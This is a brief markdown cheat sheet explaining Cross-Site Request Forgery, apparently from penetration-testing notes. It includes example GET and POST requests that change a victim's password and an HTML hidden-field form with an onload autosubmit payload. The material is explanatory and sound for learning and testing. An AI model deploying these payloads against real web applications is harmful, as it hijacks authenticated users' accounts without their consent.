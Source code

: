 # Cross Site Request Forgery (CSRF)
**Cross-Site Request Forgery (CSRF)** is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.

# Overview and Prerequisites
- **Valuable Action:** One needs to find an action that is worth exploiting, such as, changing user information.
- **Session:** The user's session must only be managed by a cookie.

# Exploitation
**Both methods mentioned below can be distributed via *social engineering***
## GET
- This is a normal request to change a user's (`acc`) password (`new_pass`) on a platform
    ```
    GET http://domain.com/action/?acc=test&new_pass=password123
    ```
- To exploit this and change the password of the victim, one can do this:
    ```
    GET http://domain.com//action/?acc=victim&new_pass=newpassword123
    ```

## POST
- Basic request to change password
    ```
    POST http://domain.com/action/

    acc=test&new_pass=password123
    ```
- To exploit it, one needs to create a fake form which points to the URL that the they need with the attributes needed 
    ```html
    <form action="http://domain.com/action/" method="POST">
        <input type="hidden" name="acc" value="victim"/>
        <input type="hidden" name="new_pass" value="newpassword123"/>
        <input type="submit" value="THIS IS A CSRF ATTEMPT"/>
    </form>
    ```
- Since the form needs to be sent, one can just make add an autosubmit functionality to the page:
    ```html
    <body onload="document.forms[0].submit()">
    ```


## References
- [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
- [https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)